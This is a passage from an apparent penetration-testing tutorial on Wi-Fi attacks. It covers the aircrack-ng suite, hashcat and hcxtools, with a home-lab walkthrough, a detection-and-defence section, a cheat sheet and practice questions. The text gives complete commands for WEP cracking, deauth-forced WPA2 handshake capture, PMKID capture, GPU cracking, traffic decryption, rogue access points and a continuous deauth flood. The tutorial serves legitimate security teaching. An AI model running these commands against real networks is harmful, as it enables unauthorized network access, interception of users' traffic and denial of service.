```

- `-m 22000` — WPA-PBKDF2-PMKID+EAPOL mode.
- `hash.hc22000` — the converted hash file.
- the wordlist path — candidates.

Add attack modes and rules for real power:

```bash
# Dictionary + best64 rule set (mangles each word: capitalise, append digits, etc.)
hashcat -m 22000 hash.hc22000 rockyou.txt -r /usr/share/hashcat/rules/best64.rule

# Mask attack: exactly 8 characters, all digits (common router default PSKs)
hashcat -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d

# Mask: 'Word' + 4 digits
hashcat -m 22000 hash.hc22000 -a 3 -1 ?u?l ?1?l?l?l?d?d?d?d
```

`-a 3` selects **mask (brute-force) mode**; `?d` = digit, `?l` = lowercase, `?u` = uppercase, `?s` = symbol, `?a` = all. Custom charsets go in `-1`/`-2`. On a modern GPU, WPA2 runs at hundreds of thousands to a few million H/s — orders of magnitude past aircrack-ng's CPU rate, which is why this pipeline dominates today.

You can still crack a `22000` file with aircrack-ng if you have no GPU, and you can still feed an old `.cap` to hashcat by converting it with `hcxpcapngtool` — the tools interoperate.

---

## Part 8: WEP — The Legacy Attack You Should Still Understand

WEP is effectively extinct in corporate environments but still appears on old printers, IoT gadgets, industrial gear, and the occasional forgotten AP — and CTFs love it. Chapter 1 explained *why* WEP is broken (RC4 with a 24-bit IV, linear CRC-32 integrity). Here is *how* aircrack-ng breaks it, because the tooling differs entirely from WPA.

WEP has no passphrase-to-crack; the key is recovered **statistically from captured initialisation vectors (IVs)**. The more data frames (hence IVs) you capture, the faster the key falls. The trick is generating traffic fast, which is what the WEP aireplay modes do.

Full WEP crack sequence:

```bash
# 1. Capture, locked to the WEP AP, writing IVs
sudo airodump-ng -c 3 --bssid AA:BB:CC:DD:EE:FF -w wep wlan0mon

# 2. Fake-authenticate to the AP so it accepts our injected frames
sudo aireplay-ng -1 0 -a AA:BB:CC:DD:EE:FF -h <our-mac> wlan0mon
#   -1 0  = fake auth, reassociate every 0 (once); -h = our (spoofed) MAC

# 3. ARP-request replay to force the AP to emit many IV-bearing frames
sudo aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h <our-mac> wlan0mon
#   watch #Data in airodump climb into the tens of thousands fast

# 4. Crack once enough IVs are collected (often 20k-80k)
aircrack-ng -b AA:BB:CC:DD:EE:FF wep-01.cap
#   KEY FOUND! [ 1A:2B:3C:4D:5E ]  (uses PTW attack by default)
```

The PTW attack (default in aircrack-ng) needs far fewer IVs than the original FMS attack — often under 40,000 for a 104-bit key. If a network is truly idle (no ARP to replay), the KoreK chopchop (`-4`) or fragmentation (`-5`) attacks can manufacture the keystream to forge an ARP and bootstrap traffic.

**Real-world relevance:** finding *any* WEP network on an engagement is an automatic critical finding — it can be broken in minutes and provides full network access. In CTFs (several older VulnHub and older HTB-style wireless challenges), the WEP crack above is the intended path.

---

## Part 9: airdecap-ng and airbase-ng — After the Key, and Rogue APs

### airdecap-ng — decrypt captured traffic

Cracking the passphrase is often not the end goal; you may need to **read the traffic** you captured to prove impact (credentials in cleartext, internal hostnames, etc.). `airdecap-ng` decrypts a WEP or WPA capture once you supply the key/passphrase:

```bash
# WPA/WPA2: needs the passphrase AND the ESSID (salt)
airdecap-ng -p 'Summer2023!' -e HomeNet capture_homenet-01.cap
#   -p = passphrase, -e = ESSID
#   writes capture_homenet-01-dec.cap with decrypted frames

# WEP: supply the recovered hex key
airdecap-ng -w 1A2B3C4D5E -b AA:BB:CC:DD:EE:FF wep-01.cap
```

- `-p` passphrase, `-e` ESSID (WPA); `-w` WEP key, `-b` BSSID.
- Output is a new `*-dec.cap` you open in Wireshark to inspect the now-plaintext application data.

Note it can only decrypt frames for sessions where it *also* saw the four-way handshake (it needs the PTK), so capture the handshake and the data together.

### airbase-ng — the rogue-AP base station

`airbase-ng` turns your card into an AP — the foundation of **evil-twin** and **rogue-AP** attacks (covered in depth in a later chapter). A minimal soft AP:

```bash
sudo airbase-ng -e "FreeCoffee" -c 6 wlan0mon
#   -e = ESSID to broadcast, -c = channel
#   creates at0, a tap interface carrying the "wired" side of the fake AP
```

In an evil-twin attack you clone a target's ESSID, deauth clients off the real AP so they roam to yours, then capture credentials via a captive portal or downgrade. That is a whole methodology (rogue APs, captive portals, `eaphammer`/`hostapd-mana`) — flagged here so you know where `airbase-ng` sits in the suite; the full attack is a later chapter.

---

## Part 10: Hands-On Lab — Capture and Crack a WPA2 Handshake End to End

This lab is fully reproducible **on your own equipment**: a spare home router (or a phone hotspot) set to WPA2-PSK with a passphrase you deliberately place in a wordlist, a client device (a second phone/laptop) connected to it, and your Kali box with a monitor-mode-capable adapter. Do not run any of this against networks you do not own.

**Lab goal:** scan → lock channel → force and capture a four-way handshake with a targeted deauth → verify it → crack it → decrypt one data frame to prove impact.

### Step 0 — Prep the target (your own AP)

Configure your test router: SSID `LabNet`, WPA2-PSK, passphrase `Wireless99!`. Add that exact passphrase into a small wordlist so the crack is guaranteed to succeed quickly:

```bash
printf 'password\nletmein\nWireless99!\nadmin123\n' > lab.txt
```

### Step 1 — Monitor mode

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
iw dev            # confirm wlan0mon exists, type monitor
sudo aireplay-ng --test wlan0mon      # confirm injection works
```

### Step 2 — Find the target

```bash
sudo airodump-ng --band bg wlan0mon
```

Watch for `LabNet`. Note its **BSSID** and **CH**. Suppose:

```
 BSSID              PWR  Beacons  #Data #/s CH  MB   ENC  CIPHER AUTH ESSID
 26:5A:4C:88:11:02  -34      301     52   3   6  360  WPA2 CCMP  PSK  LabNet
```

And under it, the connected client:

```
 BSSID              STATION            PWR  Rate   Lost Frames Probes
 26:5A:4C:88:11:02  7C:2A:31:44:9F:10  -40  1e- 6e   0    140
```

BSSID `26:5A:4C:88:11:02`, channel `6`, client `7C:2A:31:44:9F:10`. Press `q` to stop the scan.

### Step 3 — Lock the channel and start the capture

In **terminal A**, park on the target and write to disk:

```bash
sudo airodump-ng --bssid 26:5A:4C:88:11:02 -c 6 -w labcap wlan0mon
```

Leave it running. You should see beacons and the client listed. No handshake banner yet.

### Step 4 — Force the handshake with a targeted deauth

In **terminal B**, kick the client a few times:

```bash
sudo aireplay-ng --deauth 4 -a 26:5A:4C:88:11:02 -c 7C:2A:31:44:9F:10 wlan0mon
```

```
23:02:11  Waiting for beacon frame (BSSID: 26:5A:4C:88:11:02) on channel 6
23:02:11  Sending 64 directed DeAuth (code 7). STMAC: [7C:2A:31:44:9F:10] [ 64|61 ACKs]
23:02:12  Sending 64 directed DeAuth (code 7). STMAC: [7C:2A:31:44:9F:10] [ 63|58 ACKs]
23:02:12  Sending 64 directed DeAuth (code 7). STMAC: [7C:2A:31:44:9F:10] [ 64|60 ACKs]
23:02:13  Sending 64 directed DeAuth (code 7). STMAC: [7C:2A:31:44:9F:10] [ 62|59 ACKs]
```

Non-zero ACKs confirm the client received the deauth. Switch to terminal A — within a second or two of the client reconnecting you should see:

```
 CH  6 ][ Elapsed: 1 min ][ 2026-11-24 23:02 ][ WPA handshake: 26:5A:4C:88:11:02
```

Give it ~5 more seconds, then press `q` in terminal A to stop.

### Step 5 — Verify the handshake is actually complete

Do not trust the banner alone; confirm the EAPOL frames are present. Two ways:

```bash
# Quick: does aircrack-ng see a valid WPA handshake in the file?
aircrack-ng labcap-01.cap
#  It lists networks; the target line should show "(1 handshake)"
#   #  BSSID              ESSID   Encryption
#   1  26:5A:4C:88:11:02  LabNet  WPA (1 handshake)
```

```bash
# Thorough: inspect EAPOL frames in Wireshark / tshark
tshark -r labcap-01.cap -Y eapol
#  You want to see all four EAPOL messages (M1-M4).
#  At minimum M1+M2 (or M2+M3) with matching nonces are needed to crack.
```

If aircrack-ng says `(0 handshakes)`, repeat Step 4 — the client may not have completed all four messages, or you captured across a channel change. This verify step is what separates people who "sometimes get it" from people who reliably get it.

### Step 6 — Crack it

```bash
aircrack-ng -w lab.txt -b 26:5A:4C:88:11:02 labcap-01.cap
```

```
                               Aircrack-ng 1.7

      [00:00:00] 3/4 keys tested (612.90 k/s)

                          KEY FOUND! [ Wireless99! ]

      Master Key     : A1 04 9C ... 22 EF
      Transient Key  : 77 3B ... 10 9A
      EAPOL HMAC     : C4 15 ... 8E 21
```

### Step 7 — Prove impact: decrypt the traffic

```bash
airdecap-ng -p 'Wireless99!' -e LabNet labcap-01.cap
# writes labcap-01-dec.cap
tshark -r labcap-01-dec.cap -Y http.request     # now-plaintext HTTP requests
```

If your lab client browsed anything over cleartext HTTP during capture, you now see the requests in the decrypted file — the concrete "so what" that turns a cracked key into a demonstrated compromise.

### Step 8 — The modern pipeline on the same network (PMKID/hashcat)

For contrast, capture the same network the modern way and crack on GPU:

```bash
sudo systemctl stop NetworkManager
sudo hcxdumptool -i wlan0 -w lab.pcapng --enable_status=1
#   let it run ~30-60s to grab a PMKID and/or handshake, then Ctrl-C
hcxpcapngtool -o lab.hc22000 lab.pcapng
hashcat -m 22000 lab.hc22000 lab.txt
#   Status.......: Cracked
#   ...:Wireless99!
```

Same passphrase, different (usually faster, GPU-accelerated, sometimes clientless) road to it.

### Step 9 — Tear down cleanly

```bash
sudo airmon-ng stop wlan0mon
sudo systemctl restart NetworkManager
```

---

## Part 11: Advanced Realities, Edge Cases, and Common Misconfigurations

The lab is clean; the field is not. These are the situations that break real captures and how to reason about them.

### Hidden SSIDs

An AP with a hidden ESSID shows `<length: 6>` in airodump-ng instead of a name. The handshake still captures fine (the crack uses the ESSID as salt, so you need the real name eventually). Reveal it by deauthing a client and watching the **probe/association** frames, which carry the ESSID in cleartext — airodump-ng fills in the name automatically once a client re-associates. Hiding the SSID is *not* a security control; it is cosmetic.

### PMF / 802.11w — deauth immunity

If the target uses **Protected Management Frames (802.11w/PMF)**, your forged deauth is ignored — management frames are now cryptographically protected. airodump-ng shows `MFP` capability. Against a PMF-enforcing network you cannot force a handshake by deauth; you must either **wait passively** for a legitimate (re)connection or try the **PMKID** path (which does not need a client). WPA3 mandates PMF, which is a core reason WPA3 resists the classic deauth-capture flow. **This is the single most important modern caveat to the deauth attack.**

### Wrong channel / channel width

If your capture is empty despite a strong AP, you are probably on the wrong channel or the AP is on a **40/80 MHz-wide** channel whose primary channel differs from what you locked. Match the *primary* channel airodump shows. On 5 GHz, DFS channels (52–144) can cause the AP to move channels after radar detection — re-scan.

### Regulatory domain limiting channels/power

Your card obeys a **regulatory domain** that can hide channels (e.g. channels 12–14 on 2.4 GHz, or high 5 GHz channels) and cap TX power. Check and set it:

```bash
iw reg get                 # show current domain
sudo iw reg set US         # set (use your lawful domain)
```

Setting an incorrect domain to unlock channels/power is illegal in many places — this is for diagnosing why a legitimate channel is missing, not for exceeding lawful limits.

### Client won't roam / no clients at all

If there are no associated clients, there is no one to deauth — you cannot force a four-way handshake. Options: wait for a client to connect, use the **PMKID** attack (clientless), or (in a rogue-AP engagement) stand up an evil twin to attract clients. A network with zero clients and no PMKID exposure is genuinely hard to attack via handshake — that is a legitimate defensive posture.

### Weak signal and interference

PWR worse than about -75 dBm gives lossy, incomplete captures (missing EAPOL frames → `(0 handshakes)`). Fix physically: move closer, use a directional/high-gain antenna, or change to a quieter channel. No command compensates for bad RF.

### Virtualisation pitfalls

In a VM, the monitor-mode adapter must be a **USB device passed through** to the guest — a bridged/NAT virtual NIC cannot do monitor mode. In VirtualBox/VMware, attach the physical USB Wi-Fi adapter to the Kali guest, not the emulated network card.

### Multiple monitor tools fighting

Running `airodump-ng` and `hcxdumptool` on the same interface at once, or leaving a stale `wlan0mon` and a new `wlan1mon` both hopping, corrupts captures. One capture tool per interface; verify with `iw dev`.

---

## Part 12: Detection & Defence Angle (Blue Team)

Everything above is loud on the wire if you know what to look for. This section consolidates the defensive view — how to detect the attacks and how to make them fail.

### Detecting the attacks

- **Deauth floods:** a burst of deauthentication/disassociation management frames — especially many from one source, or broadcast deauths, or reason codes 7 (`Class 3 frame received from nonassociated STA`) — is the classic signature. A **WIDS/WIPS** (Cisco, Aruba, Ekahau, or open-source Kismet with alerting) flags "deauth flood" directly. In Wireshark: `wlan.fc.type_subtype == 0x0c` (deauth) and `0x0a` (disassoc); a spike is your alert.
- **Rogue/evil-twin APs:** two BSSIDs advertising the same ESSID, an unexpected BSSID OUI, or a beacon whose fingerprint (tagged parameters, sequence numbers) differs from the legitimate AP. WIPS correlates authorised BSSIDs against what's on the air.
- **PMKID / association probes:** unusual association requests that never complete, or repeated M1 solicitations, can indicate hcxdumptool-style probing — harder to catch but visible as anomalous EAPOL M1 volume without full handshakes.
- **Monitor-mode capture itself is passive and essentially undetectable over the air** — you cannot log a listener. This is why defence focuses on making captured material *useless* and detecting the *active* steps (deauth, rogue AP).



### Making the attacks fail

| Control | What it defeats |
| --- | --- |
| **802.11w / PMF (mandatory)** | Forged deauth/disassoc — protected management frames can't be spoofed, killing the deauth-to-capture flow |
| **WPA3-SAE** | Offline handshake cracking entirely — Dragonfly PAKE gives no offline-guessable material; mandates PMF |
| **Long, high-entropy PSK (≥ 20 random chars) or 802.1X/EAP-TLS** | Offline cracking economics — even a captured handshake/PMKID is uncrackable in practice; EAP-TLS removes the shared secret |
| **WIDS/WIPS with rogue-AP containment** | Evil twins, deauth floods — detects and can auto-contain |
| **Disable WPS** | WPS PIN attacks (a separate crack path on some APs) |
| **Retire WEP and WPA-TKIP** | The instant WEP/TKIP breaks in Parts 6 and 8 |
| **5 GHz / 6 GHz + reduced power / directional antennas** | Reduces the outdoor capture blast radius |

The through-line: **PMF stops the deauth; WPA3 stops the crack; a strong PSK makes a captured handshake economically useless.** A network with WPA3-SAE, PMF enforced, WPS off, and no legacy fallback defeats essentially everything in this chapter.

---

## Part 13: Final Revision / Summary

- The **aircrack-ng suite** is a pipeline of small tools. For WPA2 you mostly use four: `airmon-ng` (monitor mode), `airodump-ng` (scan + capture), `aireplay-ng` (deauth to force a handshake), `aircrack-ng` (offline crack).
- **Hardware first.** Monitor mode lets you *hear* all frames; injection lets you *transmit* forged frames. They are different capabilities — verify both with `aireplay-ng --test`. 2.4-only cards can't touch 5 GHz networks.
- **airmon-ng check kill** stops NetworkManager/wpa_supplicant so they can't channel-hop your card mid-capture — the fix for "the capture keeps dropping the target."
- **airodump-ng** discovers targets (read the ENC/CIPHER/AUTH columns: PSK = crackable, MGT = enterprise, SAE = WPA3), then **locks a channel + BSSID** and writes a `.cap`. The `WPA handshake:` banner (top-right) means you have the four EAPOL frames.
- **The deauth attack** works because plain WPA2 management frames are unauthenticated: forge a deauth, the client reconnects, you capture the handshake. Non-zero `ACKs` prove your frames reached the client. **PMF/802.11w defeats it.**
- **aircrack-ng** derives the PMK from each wordlist candidate (PBKDF2, ESSID as salt), checks the MIC, and prints `KEY FOUND!`. It's CPU-bound and slow.
- **The modern path** — `hcxdumptool` → `hcxpcapngtool` → `hashcat -m 22000` — is faster (GPU) and supports the **PMKID clientless** attack (no client, no deauth needed) when the AP exposes a PMKID.
- **WEP** is broken statistically from captured IVs (fake-auth + ARP replay to generate them, then PTW crack) — a critical finding if you ever see it.
- **airdecap-ng** decrypts captured traffic once you have the key, proving impact; **airbase-ng** is the rogue-AP base for evil-twin attacks (later chapter).
- **Defence:** PMF stops the deauth, WPA3-SAE stops the crack, a long random PSK makes captures useless, and WIDS/WIPS detects the active steps.

---

## Part 14: Cheat Sheet / Quick Reference

**Setup**

```bash
sudo airmon-ng check kill                    # stop interfering processes
sudo airmon-ng start wlan0                    # -> wlan0mon (monitor)
sudo airmon-ng start wlan0 6                   # start already on channel 6
sudo aireplay-ng --test wlan0mon               # verify injection
sudo rfkill unblock wifi                       # clear RF-kill soft block
sudo airmon-ng stop wlan0mon                    # back to managed
# Manual monitor mode:
sudo ip link set wlan0 down; sudo iw dev wlan0 set type monitor; sudo ip link set wlan0 up
```

**Scan / capture**

```bash
sudo airodump-ng wlan0mon                        # scan all (2.4)
sudo airodump-ng --band a wlan0mon               # 5 GHz
sudo airodump-ng --band abg wlan0mon             # both bands
sudo airodump-ng --bssid <AP> -c <ch> -w cap wlan0mon   # lock + capture
sudo airodump-ng -r cap-01.cap                    # read a saved file
```

**Force the handshake**

```bash
sudo aireplay-ng --deauth 5 -a <AP> -c <CLIENT> wlan0mon   # targeted
sudo aireplay-ng --deauth 5 -a <AP> wlan0mon               # broadcast (all clients)
sudo aireplay-ng --deauth 0 -a <AP> -c <CLIENT> wlan0mon   # continuous (DoS - lab only)
```

**Crack (aircrack-ng, CPU)**

```bash
aircrack-ng cap-01.cap                            # list handshakes present
aircrack-ng -w rockyou.txt -b <AP> cap-01.cap     # dictionary crack
crunch 8 8 -t %%%%%%%% | aircrack-ng -w - -b <AP> cap-01.cap   # piped candidates
```

**Modern pipeline (hcx + hashcat, GPU)**

```bash
sudo hcxdumptool -i wlan0 -w dump.pcapng --enable_status=1
hcxpcapngtool -o hash.hc22000 dump.pcapng
hashcat -m 22000 hash.hc22000 rockyou.txt
hashcat -m 22000 hash.hc22000 rockyou.txt -r /usr/share/hashcat/rules/best64.rule
hashcat -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d           # 8-digit mask
```

**Decrypt / rogue AP**

```bash
airdecap-ng -p '<pass>' -e <ESSID> cap-01.cap     # WPA decrypt -> *-dec.cap
airdecap-ng -w <hexkey> -b <AP> wep-01.cap         # WEP decrypt
sudo airbase-ng -e "<ESSID>" -c <ch> wlan0mon      # rogue/soft AP base
```

**WEP crack**

```bash
sudo airodump-ng -c <ch> --bssid <AP> -w wep wlan0mon
sudo aireplay-ng -1 0 -a <AP> -h <ourmac> wlan0mon           # fake auth
sudo aireplay-ng -3 -b <AP> -h <ourmac> wlan0mon             # ARP replay
aircrack-ng -b <AP> wep-01.cap                                # PTW crack
```

**Wireshark/tshark verify**

```bash
tshark -r cap-01.cap -Y eapol                      # see the four EAPOL msgs
# deauth detection filter:  wlan.fc.type_subtype == 0x0c
```

---

## Part 15: Common Pitfalls

- **Capturing while airodump-ng is channel-hopping.** You must `-c <channel>` lock before a handshake will reliably land. Hopping is for discovery only.
- **Forgetting `airmon-ng check kill`.** NetworkManager silently retunes your card during background scans and your capture "randomly" loses the target.
- **Assuming monitor mode implies injection.** Test with `aireplay-ng --test`. A card that captures fine may not deauth at all.
- **Ignoring PMF.** On an 802.11w network your deauth does nothing. Check for `MFP`/`MGT`, and pivot to PMKID or passive capture.
- **Stopping capture the instant the banner flashes.** Give it a few seconds and *verify* with `aircrack-ng cap.cap` showing `(1 handshake)` before you tear down.
- **Wrong ESSID when cracking/decrypting.** The ESSID is the PBKDF2 salt — a typo means the correct passphrase never matches. Hidden-SSID captures need the real name.
- **2.4 GHz card against a 5 GHz target.** You will scan forever and see nothing. Use a dual-band adapter.
- **VM without USB passthrough.** An emulated NIC can't do monitor mode; pass the physical USB adapter into the guest.
- **Weak signal (< -75 dBm).** Incomplete EAPOL frames → `(0 handshakes)`. Fix the RF, not the command.
- **Deauth 0 on a production network.** That's a sustained DoS against real users — bounded counts only, and only in scope.

---

## Part 16: Practice Labs & Resources

Train each skill in this chapter deliberately — always on your own gear or sanctioned platforms:

- **Your own home lab (primary).** A spare router or a phone hotspot set to WPA2-PSK with a passphrase you place in a wordlist is the ideal, fully legal range for the entire Part 10 lab. Practise: monitor mode, targeted vs broadcast deauth, handshake verification, aircrack-ng vs the hashcat pipeline, and airdecap-ng.
- **TryHackMe — "Wifi Hacking 101" and the "Wireless" rooms.** Guided walkthroughs of monitor mode, airodump-ng, deauth, and cracking against safe targets.
- **Hack The Box Academy — "Wi-Fi Penetration Testing" / wireless modules.** Structured labs on the aircrack-ng workflow and PMKID.
- **hashcat example hashes & the `-m 22000` docs.** Practise the conversion and GPU-cracking pipeline with sample `.hc22000` files even without a radio; learn masks and rules against known plaintexts.
- **CTFs with wireless categories (occasional DEF CON / regional CTFs, some VulnHub boxes).** Older WEP and WPA2 handshake-crack challenges directly exercise Parts 6–8; you're often given a `.cap`/`.pcap` to crack offline — no radio required.
- **802.11 / aircrack-ng documentation.** The official aircrack-ng wiki tutorials (monitor mode, injection test, WPA/WPA2 cracking, WEP) and the hcxtools README are the authoritative references for flags and edge cases as they evolve.
- **Wireshark practice.** Load your own `.cap` files and filter `eapol` and `wlan.fc.type_subtype == 0x0c` until reading a handshake and spotting a deauth flood is second nature — this is the bridge to the blue-team detection skills.

### Practice questions

1. You capture on channel 11 while the target AP is on channel 6. airodump-ng shows the AP (because it was hopping) but you never get a handshake even after deauthing. Explain precisely why, and give the exact command change that fixes it.
2. Your `aireplay-ng --deauth` output shows `[ 64| 0 ACKs]` repeatedly. List three distinct causes and how you'd distinguish them.
3. A target shows `AUTH SAE` and `MFP` in airodump-ng. Which two techniques from this chapter will *not* work against it, and why? What (if anything) could you still try?
4. Contrast the classic four-way-handshake capture with the PMKID attack: what does each require to be present on the network, and why is PMKID sometimes preferable operationally?
5. You cracked the PSK but the client wants proof of impact, not just the password. Which tool and exact flags turn your `.cap` + passphrase into readable application traffic, and what's the one prerequisite about *what you captured* for it to work?

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-wireless/02-aircrack-ng-suite-monitor-mode-capture-and-cracking), with comments and the latest edits.*
